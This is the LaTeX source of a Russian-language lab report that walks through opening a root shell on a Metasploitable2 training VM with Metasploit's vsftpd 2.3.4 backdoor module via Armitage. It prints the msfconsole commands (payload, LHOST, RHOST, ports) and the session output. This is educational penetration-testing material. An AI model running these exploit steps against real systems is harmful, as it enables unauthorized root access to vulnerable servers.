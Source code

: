 \documentclass[10pt,a4paper,titlepage]{article}
\begin{document}
\subsection{Практическое задание: описать последовательность действий для выполнения следующих задач}

\subsubsection{Получить консоль, используя уязвимость в vsftpd}
Получим доступ к консоли, используя эксплоит exploit/unix/ftp/vsftpd\_234\_backdoor. Также воспользуемся Armigate.\\

Откроем контекстное меню на хосте Metasploitable2, выберем эксплоит с нужным именем, откроется окно с описанием эксплоита и свойствами (рис. \ref{ris:image6})
\begin{figure}[h]	
\caption{vsftpd\_234\_backdoor}
\label{ris:image6}
\end{figure}
Видно, что необходимые параметры уже установлены, в частности стоит нужный адрес хоста. Нажимаем launch и видим в консоли следующий текст.
\begin{verbatim}
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set TARGET 0
TARGET => 0
msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact
PAYLOAD => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > set LHOST 192.168.226.135
LHOST => 192.168.226.135
msf exploit(vsftpd_234_backdoor) > set LPORT 11674
LPORT => 11674
msf exploit(vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.226.134
RHOST => 192.168.226.134
msf exploit(vsftpd_234_backdoor) > exploit -j
[*] Exploit running as background job.
[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.226.135:44004 -> 192.168.226.134:6200) at 2016-06-15 12:27:18 -0400
\end{verbatim}
\end{document}

